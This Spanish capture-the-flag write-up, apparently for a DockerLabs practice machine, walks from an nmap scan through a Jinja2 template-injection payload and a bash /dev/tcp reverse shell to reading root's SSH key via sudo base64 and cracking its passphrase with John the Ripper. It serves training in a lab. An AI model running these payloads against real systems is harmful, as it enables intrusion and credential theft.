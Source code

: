 # [Verdejo](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh verdejo.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22**, **8089**
<br>

![alt text](image.png)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con la pagina por defecto de Apache2. Si intentamos hacer fuzzing no tendremos resultados.

<br>
<br>

## Página Web (Puerto 8089)

Al no tener exito en el puerto 80, probamos a intentar acceder al puerto **8089** de la siguiente forma: `172.17.0.2:8090`. Se puede observar un recuadro para poner cosas.  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3b7a51a4-0d27-438a-9213-e131dbfc6de2)

<br>

Lo primero que se me ocurre es ver si es vulnerable a `SSTI`, una manera de comprobarlo es poniendo lo suiguiente `{{7*7}}`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/818083c0-b051-47d7-ab90-2a7d84d4273b)

<br>

Como observamos es vulnerable a SSTI por lo que deberíamos hacer ahora es buscar un payload el cual nos permita ejecutar comando de forma remota (RCE), por ejemplo en este [repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection) encontramos un monton de payloads pero el que nos interesa a nosotros es el de **Jinja2** que sería algo así: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
<br> 

Al introducir lo anterior comprobamos que nos responde con lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bcd2caeb-371c-4878-8b66-09a1c52599d8)

<br>

Por lo que ahora nos mandaríamos una revshell, este parte se puede hacer de muchas formas. Una de ellas sería ponernos en escucha con netcat, escribiendo en nuestra terminal `nc -nlvp 443`, y despues e el payload en vez de poner el comando `id`, nos mandaremos una revshell poniendo lo siguiente: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}` 

<br>

Es importante escapar las comillas simples ya que si no nos dará error. Una vez mandada la revshell podemos ver que todo ha ido bien: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4e8a35d2-6b8c-496f-a88b-d53638c9a03e)

<br>
<br>

## Escala de Privilegios

Antes de empezar a probar como escalar privlegios haremos un sencillo tratamiento de la tty poniendo en orden lo suiguiente: <br>
`script /dev/null -c bash` <br>
`Pulsamos CTRL+Z` <br>
`stty raw -echo; fg` <br>
`reset xterm` <br>
`export SHELL=bash && export TERM=xterm` <br>

<br>

Una vez hecho el Tratamiento de la tty, podemos comenzar con la escala escribimos `sudo -l` podemos ver
que podemos ejecutar base64 siendo root sin proporcionar contraseña. <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bf198297-b8dd-4df1-947c-bc992e8b1dca)


<br>

Entonces mirando en [GTFOBins](https://gtfobins.github.io/) podemos ver que nos permite File Read poniendo lo siguiente -> `sudo base64 "file_to_read" | base64 --decode`. Entonces como recordamos que tiene el puerto 22 abierto es decir el ssh, podemos pobrar a leer la id_rsa del root que sería de la siguiente forma -> `sudo -u root /root/.ssh/id_rsa | base64 --decode`, por lo que visualizariamos la id_rsa del root por lo que nos la copiamos en un archivo en nuestro directorio de trabajo.

<br>
<br>

## JhonTheRipper

Una vez que tenemos la id_rsa si probamos a intentar logear como root a través del ssh de la siguiente forma -> `ssh -i id_rsa root@172.17.0.2`, nos pedirá una passphare la cual no tenemos por lo que pasaremos a crackear con JhonTheRipper. <br>

En primer lugar sacamos el hash de la id_rsa de la siguiente forma `ssh2john id_rsa > hash`, una vez que tenemos el hash pasamos a crackearlo para intentar sacar la passphare, lo haremos de la siguiente forma -> `john hash --wordlist=/usr/share/wordlist/rockyou.txt` y nos mostraría algo tal que así:

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1c2569dd-4f3a-435f-a99e-6ab421bbbb89)


<br>

Una vez que conocemos la passphare probamos a auntenticarnos como lo intentamos antes -> `ssh -i id_rsa root@172.17.0.2`, y despues introducimos la passphare y listo ya somos root!.

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3ff97e38-6c17-4410-a79e-016f9fe3c597)

